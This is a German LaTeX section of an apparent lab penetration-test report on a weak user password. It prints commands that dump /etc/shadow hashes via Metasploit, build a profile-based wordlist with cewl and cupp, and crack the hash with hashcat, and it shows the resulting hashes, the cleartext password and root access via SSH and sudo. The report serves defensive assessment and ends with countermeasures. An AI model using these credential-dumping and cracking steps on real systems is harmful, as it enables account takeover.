\section{Schwachstelle 3: Schwaches Benutzerpasswort des Benutzers myron}
\label{subsec:vuln3}
Das Passwort des Benutzers \texttt{myron} auf dem \texttt{myron}-Host kann mittels öffentlichen Informationen der MB-Reps-Website und Passwortgenerierungs-Tools aufgedeckt werden.

\subsection{Beschreibung der Schwachstelle}
\label{vuln3_way}
Aus Kapitel \ref{subsec:vuln2} konnte eine root-Session (Metasploit Session-Id: 2) zum \texttt{myron}-Host hergestellt werden. Mittels dem Metasploit-Modul \texttt{linux/gather/hashdump} ist es möglich die Benutzerkontodaten und Passwort-Hashes aus den \texttt{/etc/passwd} sowie \texttt{/etc/shadow}-Dateien zu extrahieren. Abbildung \ref{fig:vuln3_msf_linux_hashdump} zeigt, wie mittels diesem Modul über die root-Meterpreter-Session die Hashes extrahiert und unter der Datei \texttt{/root/.msf4/loot/20220226024939\-\_default\-\_172.16.30.222\-\_linux.hashes\-\_971631.txt} im sogenannten \textit{unshadowed} Format abgespeichert wurden. Mittels dem \textit{unshadowed} Format ist es möglich die Datei direkt Passwort-Cracker-Tools wie zum Beispiel \textit{hashcat} oder \textit{john} zu übergeben. Textauszug \ref{lst:vuln3_unshadowed} zeigt den Inhalt der Datei an.


\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln3/msf_hashdump_output}
    \caption{Extrahieren der Passwort-Hashes vom \texttt{myron}-Host}
    \label{fig:vuln3_msf_linux_hashdump}
\end{figure}


\lstset{language=bash,caption={Ausgabe der Unshadowed-Password-Hashes.}, label=lst:vuln3_unshadowed}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1]
|--(gu4c4m0l3@kali-t470)-[~]
|-$ sudo cat /root/.msf4/loot/20220226024939_default_172.16.30.222_linux.hashes_971631.txt
[sudo] password for gu4c4m0l3: 
root:$6$P0Po87qy$cWL7A7s468NNsjbND3oTz5MttF0OgTdLyv2NU3Lw6C6b52TtbJGSOieEljRQ0Mr tvln8TRYJ4ym8wvbk1lKT00:0:0:root:/root:/bin/bash
myron:$6$MXUMtIcK$TNFZE8fRuBuext/M.Tp7cwEAv.Uczqaa7FTp6V8gtbiaAXNWMM6k6Ly7.4yFcTQIsnQLG3DqOaz1J5tYRue8Y/:1000:1000:myron,,,:/home/myron:/bin/bash

\end{lstlisting}  

Anschließend wurde versucht mit verschiedenen gängigen Wörterlisten die Passwort-Hashes zu brechen. Da es sich allerdings um den rechenaufwändigen Hash-Algorithmus \texttt{sha512crypt} handelt, und diese Berechnungen  langsam sind, wurden nach persönlichen oder einzigartigen Merkmalen auf der Website von MB-Reps zum Benutzer myron gesammelt, welcher augenscheinlich dem CEO Myron Bolitar zugeordnet werden kann. Zuerst wurde dazu das Tool \textit{cewl} benutzt um sämtliche Wörter ab einer Länge von 5 Zeichen von der Website \texttt{http://172.16.30.80} zu sammeln und alle Links bis zu einer Tiefe von 3 ausgehend von der Start-URL zu verfolgen. Anschließend wurde das Tool \texttt{cupp} verwendet um im interaktiven Modus persönliche Daten, welche von der Website \texttt{http://172.16.30.80/myron.html} gewonnen werden konnten, einzugeben und zu permutieren. Textauszug \ref{lst:vuln3_myron_pwlist} zeigt, wie die beiden Wörterlisten generiert und anschließend in die Datei \texttt{myron\_custom\_wordlist.txt} zusammengeführt wurden.

\lstset{language=bash,caption={Erstellung einer personalisierten Passwortliste für den Benutzer myron}, label=lst:vuln3_myron_pwlist}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]

|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_10]
|-$ cewl -d 3 -m 5 http://172.16.30.80/ > cewl_myron_depth3_minlen5.wordlist 
                                                                                                                                                                                                                                                                                                                            
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_10]
|-$ cupp -i                                                                  
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Myron
> Surname: Bolitar
> Nickname: 
> Birthdate (DDMMYYYY): 04011962


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: MB Reps


> Do you want to add some key words about the victim? Y/[N]: Y  
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: CEO,Livingston,Duke,University,Boston,Celtics,Havard,Mickey,NCAA,34,Jura,Camerbridge,Massachusetts   
> Do you want to add special chars at the end of words? Y/[N]: Y
> Do you want to add some random numbers at the end of words? Y/[N]:Y
> Leet mode? (i.e. leet = 1337) Y/[N]: Y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to myron.txt, counting 25790 words.
[+] Now load your pistolero with myron.txt and shoot! Good luck!
                                                                                                                                                                                                                                                                                                                            
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_10]
|-$ cat myron.txt cewl_myron_depth3_minlen5.wordlist > myron_custom_wordlist.txt

\end{lstlisting} 

Anschließend kann die personalisierte Wörterliste mittels \texttt{hashcat} auf die Passworthashes angewendet werden. Von \texttt{https://hashcat.net/wiki/doku.php?id=example\_hashes} konnte entnommen werden, dass für einen \texttt{sha512crypt}-Hash der Hashcat-Modus 1800 verwendet werden muss. Um eine Wörterbuchattack zu fahren muss der Attack-Mode 0 gewählt werden. Aufgrund der Tatsache, dass in der unshadowed Hashdatei ebenfalls die Benutzernamen enthalten sind, muss zusätzlich der Parameter \texttt{--username} dem hashcat-Befehl übergeben werden. Textauszug \ref{lst:vuln3_myron_hashcat} zeigt den vollständigen Hashcat Befehl sowie in Zeile 8 das geknackte Passwort \texttt{L1v1n9570n} des Benutzers \texttt{myron}. Das Passwort des root Benutzerkontos konnte nicht geknackt werden.

\lstset{language=bash,caption={Knacken des Passworts für den Benutzer myron mit einem personalisierten Wörterbuch}, label=lst:vuln3_myron_hashcat}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_10]
|-$ sudo hashcat -m 1800 -a 0 --username /root/.msf4/loot/20220226024939_default_172.16.30.222_linux.hashes_971631.txt  myron_custom_wordlist.txt       
[sudo] password for gu4c4m0l3: 
hashcat (v6.2.5) starting

[... output omitted ...]

$6$MXUMtIcK$TNFZE8fRuBuext/M.Tp7cwEAv.Uczqaa7FTp6V8gtbiaAXNWMM6k6Ly7.4yFcTQIsnQLG3DqOaz1J5tYRue8Y/:L1v1n9570n
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: /root/.msf4/loot/20220226024939_default_172.16.30.222_linux.hashes_971631.txt
Time.Started.....: Sat Feb 26 03:48:44 2022 (29 secs)
Time.Estimated...: Sat Feb 26 03:49:13 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (myron_custom_wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1323 H/s (9.76ms) @ Accel:512 Loops:128 Thr:1 Vec:4
Recovered........: 1/2 (50.00%) Digests, 1/2 (50.00%) Salts
Progress.........: 52214/52214 (100.00%)
Rejected.........: 0/52214 (0.00%)
Restore.Point....: 26107/26107 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:4992-5000
Candidate.Engine.: Device Generator
Candidates.#1....: norym62962 -> Footer
Hardware.Mon.#1..: Util: 96%

Started: Sat Feb 26 03:48:42 2022
Stopped: Sat Feb 26 03:49:15 2022

\end{lstlisting} 

Abbildung \ref{fig:vuln3_myron_about_page} zeigt nochmal die für das \texttt{cupp}-Tool genutzten Informationen der \textit{Über Mich}-Seite des Geschäftsführers von MB-Reps, Myron Bolitar. Das rot eingerahmte Wort \textit{Livingston}\footnote{Geburtsort von Myron Bolitar} war unter Anwendungen von Permutationen - insbesondere durch die Aktivierung des \texttt{Leet mode} (s. Zeile 44 in Textauszug \ref{lst:vuln3_myron_pwlist}) - durch das \texttt{cupp}-Tool für das erfolgreiche brechen des Passwortes das ausschlaggebende Schlüsselwort.

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln3/myron_about_me}
    \caption{Geburtsort \texttt{Livingston} war ausschlaggebendes Schlüsselwort für das \texttt{cupp}-Tool.}
    \label{fig:vuln3_myron_about_page}
\end{figure}


Mit dem Vorwissen aus dem vorherigen Kapitel ist bekannt, dass unter der IP-Adresse \texttt{172.16.30.222} ein SSH-Verbindung zum \texttt{myron}-Host möglich ist. Abbildung \ref{fig:vuln3_ssh_login_myron} zeigt, wie sich der Benutzer \texttt{myron} mit dem Passwort \texttt{L1v1n9570n} am \texttt{myron}-Host anmeldet. Auffällig ist, dass der Benutzer eine Mitgliedschaft in der \texttt{sudo}-Gruppe hat, womit mittels dem Befehl \texttt{sudo -s} in die root-Berechtigungen gewechselt werden kann. Von diesem Zeitpunkt an hat der Angreifer das System vollständig unter Kontrolle und kann gegebenenfalls ein eigenes Benutzerkonto anlegen oder das noch unbekannte Root-Passwort ändern. Des Weiteren hat der Host \texttt{myron} Internetzugang. Somit ist es möglich weitere Softwarepakete, wie z.B. \texttt{nmap} mit dem Befehl \texttt{root@myron:\~{}\# apt-get install nmap} zu installieren oder weitere Inhalte aus dem Internet nachzuladen.


\begin{figure}[h!]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln3/ssh_got_root}
    \caption{Anmelden am Host \texttt{myron} über SSH und Erlangung der Root-Berechtigungen}
    \label{fig:vuln3_ssh_login_myron}
\end{figure}


\subsection{Risikobewertung}
Damit sich ein Angreifer mittels SSH auf die \texttt{myron}-Maschine einloggen kann, müssen ihm neben dem eigentlichen Passwort auch der Benutzername \texttt{myron} sowie die IP-Adresse für den SSH-Zugang \texttt{172.16.30.222} bekannt sein. Die letzteren beiden genannten Informationen kann der Angreifer nur mit Ausnutzung der ersten Schwachstelle (über das webbasierte Ping-Tool) mit 100\%-iger Sicherheit erlangen. Da zumindest der Web-Auftritt und der SSH-Zugang im selben IP-Subnetz \texttt{172.16.30.0/24} liegen, könnte ein ausdauernder und forcierter Angreifer die IP-Adresse und den SSH-Zugang von \texttt{172.16.30.222} ausfindig machen. Da dem Angreifer zu diesem Zeitpunkt immer noch der konkrete Benutzername unbekannt ist und darüber hinaus auch mit typischen Wörterbuchlisten angreifen würde, würden die Angriffe aus Gründen der Laufzeit bei SSH-Logins über das Netzwerk sehr lange dauern. Die Eintrittswahrscheinlichkeit, auch aufgrund der Hürde, dass das Passwort mit dem Leet-Modus permutiert werden muss, wird daher als MITTEL eingestuft.

Im Falle eines erfolgreichen SSH-Logins eines Angreifers durch den \texttt{myron}-Benutzers und der Tatsache, dass dieser Benutzer Mitglieder der sudo-Gruppe ist und uneingeschränkte Root-Berechtigungen erhält, ist die Schadenshöhe mit HOCH zu bewerten.

Das Gesamtrisiko wurde daher mit \textcolor{red}{HOCH} bewertet.

\subsection{Empfohlene Gegenmaßnahmen}
Es wird dringend empfohlen sichere und komplexe Passwörter mit einer Mindestlänge von 15 Zeichen zu verwenden. Diese sollten keinen persönlichen Bezug oder ähnliche/verwandte Eigenschaften zum Nutzer enthalten. Darüber hinaus sollten Passwörter nicht über mehrere Konten hinweg genutzt werden und somit pro Konto einmalig sein. Insbesondere bei SSH wird empfohlen die Login-Option mit Passwörtern zu deaktivieren und die Publikey-Authentifizierung mittels kryptografischen Schlüsselpaaren zu verwenden. Generell, aber insbesondere für im Internet erreichbare und/oder kritische Login-Zugänge, wird eine Zwei-Faktor-Authentifizierung empfohlen. Abschließend wird empfohlen, bei wiederholt fehlschlagenden Login-Versuchen innerhalb eines kurzen Zeitfensters die Aggressor-IP-Adresse für einen fest definierten Zeitraum zu blockieren, um Brute-Force-Angriffe auszubremsen.

\subsection{Hinterlassene Spuren und Spurenbeseitigung}
Es wurden keine Spuren zur Durchführung dieser Schwachstelle hinterlassen.